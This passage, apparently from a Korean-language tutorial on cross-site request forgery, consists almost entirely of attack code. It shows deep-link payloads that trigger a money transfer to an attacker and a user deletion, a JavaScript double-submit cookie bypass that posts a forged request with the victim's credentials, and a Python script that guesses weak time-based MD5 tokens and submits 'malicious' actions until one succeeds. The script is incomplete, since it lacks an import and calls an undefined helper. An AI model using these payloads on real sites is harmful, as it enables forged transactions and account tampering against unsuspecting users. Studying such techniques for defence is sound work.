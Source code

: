 #### 3.6.2. 딥링크 악용
```html
<!-- 모바일 앱 딥링크를 통한 CSRF -->
<a href="myapp://transfer?to=attacker&amount=10000">앱에서 보기</a>

<!-- URL Scheme 조작 -->
<script>
window.location.href = "myapp://admin/delete_user?id=123";
</script>
```

### 3.7. 고급 우회 기법

#### 3.7.1. 이중 Submit 쿠키 우회
```javascript
// CSRF 토큰이 쿠키로도 설정되는 경우
document.cookie = "csrf_token=predicted_token_value; path=/";

fetch('http://target.com/api/action', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': 'predicted_token_value'
    },
    body: JSON.stringify({action: 'malicious'}),
    credentials: 'include'
});
```

#### 3.7.2. 토큰 예측 공격
```python
# 약한 토큰 생성 알고리즘 공격
import hashlib
import time

def predict_csrf_tokens():
    # 시간 기반 토큰 예측
    current_time = int(time.time())
    
    predicted_tokens = []
    for offset in range(-300, 301):  # ±5분 범위
        timestamp = current_time + offset
        # 약한 토큰 생성 로직 (예: MD5(timestamp))
        token = hashlib.md5(str(timestamp).encode()).hexdigest()[:16]
        predicted_tokens.append(token)
    
    return predicted_tokens

# 예측된 토큰들로 공격 시도
def attempt_csrf_with_predicted_tokens(target_url, predicted_tokens):
    for token in predicted_tokens:
        response = requests.post(target_url, 
            data={'csrf_token': token, 'action': 'malicious'},
            cookies=get_target_cookies())
        
        if 'success' in response.text.lower():
            print(f"CSRF attack successful with token: {token}")
            break
```
